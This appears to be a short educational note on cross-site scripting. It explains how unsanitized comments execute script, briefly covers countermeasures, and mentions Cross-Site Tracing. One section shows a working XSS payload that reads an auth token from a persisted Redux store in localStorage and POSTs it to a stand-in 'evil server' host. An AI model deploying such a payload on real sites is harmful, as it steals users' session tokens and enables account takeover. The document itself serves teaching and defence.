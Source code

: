 # Cross Site Scripting

**Cross site scripting** (**XSS**) is an attack where one runs a script
(typically JavaScript) in another user's browser. This can happen if user inputs
are not correctly sanitized and then displayed back to users.

XSS can be used for

- stealing stored data in browser local storage
- steal cookies (unless they are server-side read-only)
- modify DOM and trigger DOM events
- send requests (especially dangerous if cookie-based authentication is used)
- keylogger

For example, assume we have a social media site wheres user can post comments.
The comments are rendered server side using a template language (although it is
as much of a vulnerability for client-side rendering)

```html
<div>
  <p>{comment}</p>
</div>
```

A malicious user posts the following comment

```html
<script>
  alert("XSS");
</script>
```

When any user attempt to see this comment, the HTML renders as below which
executes the malicious script.

```html
<div>
  <p>
    <script>
      alert("XSS");
    </script>
  </p>
</div>
```

## Accessing Local Storage

Here is a vulnerability from an app I was working. This attack could grab a
token in persisted Redux store and send it to an evil server.

```html
<script>
  {
    const root = window.localStorage["persist:root"];
    const auth = JSON.parse(root).auth;

    const url = "my.evil.server:5001";
    window.fetch(url, { method: "POST", body: auth });
  }
</script>
```

## Countermeasures

The best protection against XSS is to make sure all user input is sanitized and
that no vulnerable data is stored in local storage or browser readable cookies.

## XST

There is something called Cross-Site Tracing (XST) where one uses a HTTP Track
request to bypass the `httpOnly` attribute in a cookie. To protect against XST,
make sure Track requests are disabled (especially from JavaScript).
